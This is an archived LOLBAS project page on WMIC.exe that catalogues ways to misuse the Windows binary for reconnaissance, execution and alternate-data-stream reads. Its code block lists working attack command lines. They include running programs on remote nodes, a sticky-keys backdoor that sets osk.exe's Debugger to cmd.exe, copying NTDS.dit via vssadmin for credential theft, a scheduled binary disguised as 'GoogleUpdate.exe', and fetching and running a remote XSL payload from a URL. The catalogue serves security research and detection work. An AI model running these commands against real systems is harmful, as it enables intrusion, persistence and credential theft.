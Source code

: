 # UPDATE BOOKMARKS - PROJECT MOVED TO A DEDICATED PROJECT SITE. THIS SITE WILL NOT BE UPDATED ANYMORE, BUT WILL BE KEPT FOR HISTORICAL REASONS.
New site: https://github.com/LOLBAS-Project/LOLBAS
Web portal: https://lolbas-project.github.io/ 
## WMIC.exe

* Functions: Reconnaissance, Execute, Read ADS

```
wmic process call create calc    

wmic process call create '"c:\ads\file.txt:program.exe"'
   
wmic useraccount get /ALL    
    
wmic process get caption,executablepath,commandline     
    
wmic qfe get description,installedOn /format:csv    
    
wmic /node:"192.168.0.1" service where (caption like "%sql server (%")    
    
get-wmiobject –class "win32_share" –namespace "root\CIMV2" –computer "targetname"    
    
wmic /user:<username> /password:<password> /node:<computer_name> process call create "C:\Windows\system32\reg.exe add \"HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe\" /v \"Debugger\" /t REG_SZ /d \"cmd.exe\" /f"    
    
wmic /NODE: "192.168.0.1" process call create "evil.exe"    
    
wmic /node:REMOTECOMPUTERNAME PROCESS call create "at 9:00PM c:\GoogleUpdate.exe ^> c:\notGoogleUpdateResults.txt"    
    
wmic /node:REMOTECOMPUTERNAME PROCESS call create "cmd /c vssadmin create shadow /for=C:\Windows\NTDS\NTDS.dit > c:\not_the_NTDS.dit"    
     
wmic process get brief /format:"https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Wmic_calc.xsl"    
     
wmic os get /format:"MYXSLFILE.xsl"    
     
wmic process get brief /format:"\\127.0.0.1\c$\Tools\pocremote.xsl"   
```

Acknowledgements:
* Casey Smith - @subtee

Code sample:
* [Wmic_calc.xsl](https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Wmic_calc.xsl)   

Resources:
* https://stackoverflow.com/questions/24658745/wmic-how-to-use-process-call-create-with-a-specific-working-directory
* https://subt0x11.blogspot.no/2018/04/wmicexe-whitelisting-bypass-hacking.html
* https://twitter.com/subTee/status/986234811944648707

Full path:
```
c:\windows\system32\wbem\wmic.exe
c:\windows\sysWOW64\wbem\wmic.exe
```

Notes:



 
